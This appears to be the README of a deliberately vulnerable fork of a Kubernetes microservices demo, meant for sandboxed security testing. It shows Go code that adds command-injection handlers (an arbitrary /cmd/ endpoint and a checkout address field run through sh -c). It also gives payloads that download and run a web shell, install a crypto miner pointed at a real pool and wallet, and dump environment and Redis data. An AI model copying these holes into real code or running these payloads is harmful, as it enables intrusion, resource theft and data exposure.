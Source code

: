 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accommodate some of the use-cases mentioned below

1. **Sensitive keys in codebases** -
     [committing sensitive information to the version control system.](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#sensitive-data-exposure)

2. **Custom handle with code execution** -
    [a custom httpHandler to reply *whoami*](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#custom-handle)
3. **Vulnerable address field** - 
    [to executes codes in the backend](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#rce)
4. **Crypto Miner on pod** - [to install cryptominer python based application on to a pod](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#crypto-miner)
5. **Redis data exposure** - [to connect and disclose the data stored in redis db](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#redis-data-exposure)


> **Note:** These tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed environment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public IP**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
## Custom Handle

**Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
## RCE

**Give commands in Address field to install and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


## Crypto Miner

**Give commands in Address field to install and run Crypto Miner Python application**

*Command*

```
apk add --no-cache wget curl python2 && curl -L https://github.com/ricmoo/nightminer/archive/refs/heads/master.zip > test.zip && unzip test.zip && cd nightminer-master && python nightminer.py -o stratum+tcp://eu.miningdao.io:4444  -u 1LNdGsYtZXWeiKjGba7T997qvzrWqLXLma 
```

[![Screenshot of hubble ui](./images/connection-hubble.png)](./images/connection-hubble.png) 

## Redis data exposure

**Use the /cmd/ handle to get env variables**

*Command*

```
<your-external-ip>/cmd/printenv
```
[![Screenshot of printenv](./images/printenv.png)](./images/printenv.png) 

**Use redis-cli to connect to the above ip and see the KEYS**

*Command*

```
<your-external-ip>/cmd/echo "KEYS *" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli keys](./images/redis-cli.png)](./images/redis-cli.png) 

**Use redis-cli to show the type of data**

*Command*

```
<your-external-ip>/cmd/echo "type <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data type](./images/redis-cli-type.png)](./images/redis-cli-type.png) 

**Use redis-cli to show the data**

*Command*

```
<your-external-ip>/cmd/echo "hgetall <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data](./images/redis-cli-data.png)](./images/redis-cli-data.png) 
<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```
## local_file_inclusion
```Local file inclusion (also known as LFI) is the process of including files that are already locally present on the server, through the exploitation of vulnerable inclusion procedures implemented in the application.
This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included, and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected.
For Example in PHP we use “include” method to merge the sub files into the main file and we merge the parameter or file names with the variable names like (page,file,etc..,)

```
## Files Changed

> microservices-demo/src/frontend/main.go

*Line 147:*
```go
r.PathPrefix("/lfi/").Handler(http.StripPrefix("/lfi/", http.FileServer(http.Dir("./lfi/"))))
```
> microservices-demo/src/frontend/Dockerfile
**Dockerfile**
*Line 37:*
```
COPY ./lfi ./lfi
```

<br />
